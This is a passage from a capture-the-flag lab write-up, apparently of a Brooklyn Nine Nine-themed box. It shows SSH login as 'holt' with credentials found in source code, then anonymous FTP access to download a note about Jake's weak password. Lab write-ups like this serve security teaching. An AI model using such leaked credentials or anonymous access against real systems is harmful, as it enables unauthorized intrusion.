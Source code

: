 Opening the file, we can see credentials for a user named **Holt**, we should be able to login with the following credentials: `holt:fluffydog12@ninenine`, so let's try to gain access via `ssh`.

```bash
❯ ssh holt@10.10.193.10
holt@10.10.193.10's password: fluffydog12@ninenine 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ whoami
holt
```

***This way to gain access was fun, but personally the way in was to much CTF-like, so let's gain access in a more "real scenario" way.***

## Port 21 Enumeration

The `nmap` scan showed us that we can access a file named `note_to_jake.txt`, so let's take a look.

```bash
❯ ftp 10.10.193.10
Connected to 10.10.193.10.
220 (vsFTPd 3.0.3)
Name (10.10.193.10:ne4rby): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Indeed we can login anonymously, so let's download the file.

```bash
ftp> ls
229 Entering Extended Passive Mode (|||64892|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||27531|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |*********************************************************************************************************************************************|   119       14.92 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (1.29 KiB/s)
ftp> 
```

After opening the file we can see that a sysadmin named **Amy** is telling **Jake** that his password is weak and he should change it ASAP.

```bash
❯ catn note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
